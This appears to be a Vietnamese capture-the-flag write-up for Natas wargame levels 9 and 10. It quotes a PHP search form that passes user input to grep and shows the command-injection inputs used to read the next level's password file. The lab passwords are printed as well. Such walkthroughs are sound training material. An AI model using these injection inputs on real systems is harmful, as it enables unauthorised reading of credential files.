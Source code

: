 # Level 9
###### User: *natas9* Pass: *Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd*
+ Xem trong source code, thấy thanh tìm kiếm có thể có lỗ hổng *Command Line Injection* khi mà input của người dùng được truyền thẳng đến hệ thống:
```python
...
passthru(“grep -i $key dictionary.txt:);
...
```
+ Insert lệnh vào thanh tìm kiếm:
```
yo; cat /etc/natas_webpass/natas10
```
-> Ra được pass cho level tiếp theo.

# Level 10
###### User: *natas10* Pass: *D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE*
+ Vẫn như level trước, tuy nhiên trong đoạn code giờ đây đã có thêm hạn chế ký tự đặc biệt nhưng không phải là tất cả:
```python
...
if(preg_match('/[;|&]/', $key)) {
  print "Input contains an illegal character!";
}
...
```
+ Sử dụng lệnh sau để đọc tất cả file trong `/etc/natas_webpass/natas11`:
```
.* /etc/natas_webpass/natas11
```

